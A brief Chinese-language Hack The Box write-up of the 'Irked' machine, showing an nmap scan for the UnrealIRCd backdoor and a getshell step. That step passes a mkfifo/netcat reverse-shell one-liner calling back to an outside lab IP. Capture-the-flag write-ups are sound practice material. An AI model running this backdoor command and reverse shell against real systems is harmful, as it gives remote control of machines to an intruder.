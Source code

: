 ```yaml
---
title: Irked Writeup
date: 2020-11-30 22:23:47
category: Hack The Box
---
```


# Irked Writeup

![](./0.png)

## 0x01 信息收集

![](./1.png)


## 0x02 漏洞枚举
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse 10.10.10.117
```
![](./5.png)

## 0x03 Getshell
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4444 >/tmp/f &' 10.10.10.117
```
![](./6.png)

## 0x04 提权
exim4 - 4.84-2 看有提权漏洞，实则兔子洞，很坑。
![](./7.png)

另辟蹊径，轻松提权。
![](./10.png)


## 0x05 攻击节点
## 0x02 学到什么
#### 1、善用 `nmap --script vuln`。
#### 2、警惕兔子洞，走不通要果断放弃，另辟蹊径。